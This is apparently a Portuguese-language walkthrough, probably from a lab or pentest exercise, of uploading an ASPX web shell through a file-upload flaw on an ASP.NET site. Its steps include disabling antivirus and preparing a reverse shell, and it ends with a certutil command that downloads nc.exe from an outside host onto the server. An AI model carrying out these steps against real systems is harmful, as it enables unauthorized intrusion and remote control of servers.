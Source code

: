 # Depois de levantar informações especificas como o lugar ontem tem uma falha para upar arquivos e deletar , o lugar onde essee arquivos ficam armazenados e ainda conseguir acessar ele.

## Resumindo tudo favoravel para subir o shell

## Contexto para subir o shell sabendo a tecnologia do site que é ASP NET eu posso ta procurando um Shell que seja ASPNET.aspx upar no servidor e acessar ele e conseguir injetar comandos 
## 1° - Procurar no google o SHell : github: shell for ASP.aspx 
## 2° - Desligar o antivirus do computador
![image](https://github.com/user-attachments/assets/d7a9b6dd-d1a3-463e-a716-488dfa836c1a)
## 3° - salvar esse shell no arquivo .aspx
![image](https://github.com/user-attachments/assets/bf04650c-c0af-4cfc-81c8-9d19ef13cf80)
## com ele em mãos é so subir no servidor e acessar
## acessando o local onde descobrimos no DIRSEARCH que é o magnam que faz o trabalho do banco de dados
![image](https://github.com/user-attachments/assets/b4f7bf34-f8f4-40a1-b90b-32065c645192)
## upando arquivo
![image](https://github.com/user-attachments/assets/f4923442-491e-49ad-9738-48ca914b4726)
## arquivo UPADO só acessa agora
![image](https://github.com/user-attachments/assets/0afbee35-4be9-4f1b-acad-2c5cac33dce3)
## acessando o arquivo 
![image](https://github.com/user-attachments/assets/634bf72b-4d67-446c-8acc-9bc82da34bbb)
## shell.aspx subiu porem voce ainda nao tem cotrole total para navegar nos diretorios para fazer um enumeração de arquivos
![image](https://github.com/user-attachments/assets/e3f8ec85-841e-4b01-9d27-398bd2e502e2)
## voce vai precisar de um nc.exe e fazer um shell reverse agora upar um server python e tranferir arquivos de servidor para servidor
![image](https://github.com/user-attachments/assets/12480b70-9d3b-48d9-aee4-69a7113a6b31)
## vc vai upar o nc.exe no public do servidor onde "todos tem acesso"
```readme.md
  # certutil -urlcache -split -f http://172.18.230.189/nc.exe C:\Users\Public\nc.exe
```
